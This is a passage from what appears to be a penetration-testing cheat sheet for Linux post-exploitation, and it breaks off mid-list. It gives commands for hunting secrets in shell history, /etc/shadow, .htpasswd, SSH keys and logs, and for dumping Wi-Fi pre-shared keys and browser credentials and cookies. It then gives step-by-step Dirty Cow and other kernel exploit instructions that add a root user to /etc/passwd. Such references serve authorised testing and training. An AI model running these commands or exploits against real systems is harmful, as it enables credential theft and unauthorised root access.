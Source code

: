### __Search for secrets on the local system:__
#### _General file search queries:_
- Search for files that are recently modified: `find /<dir (e.g. home) -type f -mmin -<minutes (e.g. 60)>`
- Search for specific file type/name: `find /* -name "*.php" -print 2>/dev/null`
- Search for a specific word in files \(example: db\_passwd, password\): `find . -type f -maxdepth 4 | xargs grep -i "<search term>"`
- Check binary files for readable strings: `strings <file>` 

#### _Interesting files to search for:_
- Check user command history \(search for mistakenly entered clear text passwords\): `history`
- Check if you can access on of the following files that store hashed or encoded passwords:
    ```
    .htpasswd
    .htaccess
    /etc/shadow
    .config
    ```
- Check for SSH keys
- Search in log files for interesting information:
    ```
    /var/log/auth.log
    /var/log/apache2/access_log
    ```
- Dump cleartext Pre\-Shared Wireless Keys from Network Manager: `cat /etc/NetworkManager/system-connections/* |grep -E "^id|^psk"`
- Ansible: check for hardcoded creds or other secrets in any stored playbooks \(playbooks have the \.yaml/\.yml extention\), backups and "/var/log/syslog" file\.

#### _Dump stored web credentials/cookies:_
This tool supports the most popular browsers on the market and runs on Windows, macOS and Linux\.
- 1\. Run tool which stores all results in a new folder called "results" \([HackBrowserData](https://github.com/moonD4rk/HackBrowserData)\): `hack-browser-data -dir <path to store folder with results>`
- 2\. Extract the interesting files back to your system and start analysing\. 

### __System exploitation:__
#### _Exploit vulnerable kernel:_
- 1\. List kernel version: `uname -a`
- 2\. Search if the kernel is vulnerable and download the PoC or choose one of the below reliable exploits:
    - Ubuntu 12\.04\.2: [perf\_swevent\_init \- Linux Kernel <  3\.8\.9 \(x86\-64\)](https://www.exploit-db.com/exploits/26131)
    - Ubuntu 11\.10 | Ubuntu 10\.04  | Redhat 6: [mempodipper \- Linux Kernel 2\.6\.39 < 3\.2\.2 \(x86\-64\)](https://www.exploit-db.com/exploits/35161)
    - Ubuntu 12\.04 | Ubuntu 14\.04 | Ubuntu 16\.04:
	    - Dirty Cow write to file:
			- 1\. Compile exploit on target system or simular own system \([DirtyCow](https://raw.githubusercontent.com/dirtycow/dirtycow.github.io/master/pokemon.c)\): `gcc -pthread pokemon.c -o exploit`
			- 2\. Generate new hashes password: `openssl passwd <password>`
			- 3\. On the target system run the exploit which will add a new root user to the /etc/passwd file: `./exploit /etc/passwd 'root2:<generate hash>:0:0:root:/root:/bin/bash'`
			- 4\. Escalate to root: `su root2`
		- Dirty Cow firefart /etc/passwd:
			- 1\. Compile the PoC \([DirtyCow](•%09https:/github.com/FireFart/dirtycow/blob/master/dirty.c)\): `gcc -pthread dirty.c -o dirty -lcrypt`
			- 2\. Run the exploit and submit a password for the new user “firefart”
			- 3\. Escalate to root via “firefart”: `su firefart`
    - Ubuntu 14\.04 | Ubuntu 16\.04:[ KASLR / SMEP \- Linux Kernel < 4\.4\.0\-83 / < 4\.8\.0\-58](https://www.exploit-db.com/exploits/43418)
- 3\. If not already, compile PoC and run on target system: